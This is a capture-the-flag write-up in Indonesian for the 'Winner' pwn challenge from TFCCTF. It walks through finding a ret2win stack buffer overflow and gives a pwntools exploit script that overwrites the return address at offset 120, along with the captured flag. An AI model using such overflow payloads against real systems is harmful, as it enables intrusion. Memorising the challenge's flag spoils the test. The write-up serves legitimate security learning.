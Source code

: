 ## Winner

![Challenge Picture](./attachments/winner.png)

## Overview & Description

Author : tomadimitrie

Points : 50

You just won a contest! What do you do? [winner](https://ctf.thefewchosen.com/attachments/1497e223-1f6c-4c28-9fa2-f6e3fdfd61dd.main)

## Hints


## Step by Step

1. Download file ELF yang diberikan, berikut rincian keamanan dalam checksec

![checksec](./attachments/checksec.png)

2. Seperti challenge pwn sebelumnya, program ini membutuhkan libc 2.34, untuk itu kita lakukan patch menggunakan pwninit lagi

![error](./attachments/libcerror.png)

![pwninit](./attachments/pwninit.png)

3. Program tersebut meminta kita untuk memasukkan nama, dikatakan bahwa kita memenangkan sebuah hadiah, dan program meminta input nama

![program](./attachments/program.png)

4. Cek program melalui ghidra dan disassemble function main, namun disini yang membuat mata saya tertuju adalah, function win

![win](./attachments/win_func.png)

5. Jadi, jika kita berhasil men-trigger function tersebut, maka function akan execute flag menggunakan getenv()

6. Jadi saya berpikir bahwa ini vuln ret2win, yang diperlukan adalah offset program dimana program akan terkena segfault, lalu kita tambahkan address win didalam payload

7. Disini saya mencoba meng-inputkan string sebanyak 120, dan terjadi lah segfault, yang menyebabkan rbp (base pointer) terisi dengan 8 bytes dari string tersebut, disini kita bisa memasukkan address win di base pointer

![gdb](./attachments/gdb.png)

8. Langsung saja kita buat scriptnya

```python
#!/usr/bin/env python3

from pwn import *
import struct

server = "01.linux.challenges.ctf.thefewchosen.com"
port = 49640


io = remote(server, port)

payload = b"A" * 120 + struct.pack("<Q", 0x0004011be)

io.sendline(payload)

io.interactive()
```

9. 0x0004011be adalah address dimana function win akan men-trigger getenv(), maka kita tambahkan didalam payload setelah offset ditemukan

![getenvaddr](./attachments/getenv.png)

10. Kita jalankan script tersebut, dan ketemu flagnya

```console
┌──(sh1roneko㉿xvrf)-[~/…/CTF/TFCCTF/pwn/winner]
└─$ python3 solver.py      
[+] Opening connection to 01.linux.challenges.ctf.thefewchosen.com on port 49640: Done
[*] Switching to interactive mode
Congratulations! You have just won a contest! Input your name to claim your prize: 
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}Congratulations! You have just won a contest! Input your name to claim your prize: 
[*] Got EOF while reading in interactive
$  
```


## Flag

`TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}`
